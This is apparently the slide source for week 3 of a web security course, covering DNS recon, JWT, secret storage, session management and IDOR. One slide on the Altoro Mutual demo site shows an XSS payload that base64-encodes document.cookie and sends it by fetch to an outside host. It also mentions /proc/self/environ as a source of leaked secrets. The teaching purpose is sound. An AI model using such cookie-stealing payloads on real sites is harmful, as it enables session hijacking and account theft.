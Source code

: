 ```yaml
---
title: "Week 3 - Auth and IAM"
layout: "bundle"
outputs: ["Reveal"]
date: 2023-02-24T02:57:21+10:00
---
```


{{< slide class="center" >}}

## Week 3

---

## DNS Recon Recap

* Walkthrough
  * [Sublist3r](https://github.com/aboul3la/Sublist3r)
  * [Word List](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

---

## Lecture Review

* Build a Flask app
* Python semantics
  * `__name__`, `__main__`, `__dir__`
* JWT
  * Next slide!

---

## More on JWT

* Anatomy of a JWT token
* What should be in a JWT token
* Pros and Cons
* Store secrets in a `.env`?
  * Why `.env`?

---

### DevOps, DevSecOps, DevSec..Oops..

{{% section %}}

> More on this in later weeks

* `.env` + `.gitignore`
* Scoped environment
* ... Why _not_ `.env`

---

If it's in the environment, the entire process can see it.. even if you unset it in the code* >:(

*: sometimes

> `/proc/self/environ`

{{% /section %}}

---

> An alternative

* External data sources
  * i.e. AWS Parameter Store
  * i.e. Google Secrets Manager
  * i.e. HashiCorp Vault
  * i.e. Apple KeyChain
* Centralised management
* Rotation + deployment at scale
* Access control

---

## Back to Altoro Mutual

jk the demo did work I was just dumb

> 👉 Login as admin first 👈

```js
<script>
  fetch("https://[...]/?v="+btoa(document.cookie))
</script>aaa
```

---

## How to be a script kiddie

* Python + `requests`
* Node.js + `node-fetch`
* JavaScript + `fetch`
* JavaScript + `XMLHTTPRequest`
* etc

---

## Session Management

* Last week, auth via cookies
* What does it mean to "log out"
* Broken session management

---

## Learning HTTP Responses

* 2XX - Success
* 3XX - Redirect
* 4XX - Client Error
  * [418](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/418)
  * [451](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/451)
* 5XX - Server Error

---

# IDOR

> Insecure Direct Object Reference


> 🚪🚪

---

## Logistics

Midterm Exam, Reports
